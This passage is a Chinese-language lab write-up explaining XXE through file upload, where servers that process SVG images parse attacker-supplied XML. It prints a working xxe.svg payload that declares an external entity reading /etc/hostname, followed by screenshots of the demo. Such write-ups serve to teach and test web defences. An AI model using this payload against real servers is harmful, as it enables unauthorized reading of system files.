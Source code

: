 [![](assets/1706060044-de70d2ff0edd4d018bc03208703a6367.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132815-35169614-b9b0-1.png)

#### 文件上传 (思路)

有些应用程序允许用户上传文件，然后在服务器端进行处理，一些常见的文件格式使用 XML 或包含 XML 子组件，基于 XML 的格式示例有 DOCX 等办公文档格式和 SVG 等图像格式，例如：应用程序可能允许用户上传图像并在上传后在服务器上处理或验证这些图像，即使应用程序希望接收像 PNG 或 JPEG 这样的格式，所使用的图像处理库也可能支持 SVG 图像，由于 SVG 格式使用 XML，攻击者可以提交恶意的 SVG 图像，从而达到 XXE 漏洞的隐藏攻击表面  
靶场演示：  
查看文章并上传文件 xxe.svg，文件内容如下

```bash
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

[![](assets/1706060044-017d6ba5eb0cfa43f7b4f0449caf3e5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132916-59e826b0-b9b0-1.png)  
查看评论  
[![](assets/1706060044-590d5be1b1c746fdbd9eadc8dcf539bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132927-607c4f9c-b9b0-1.png)

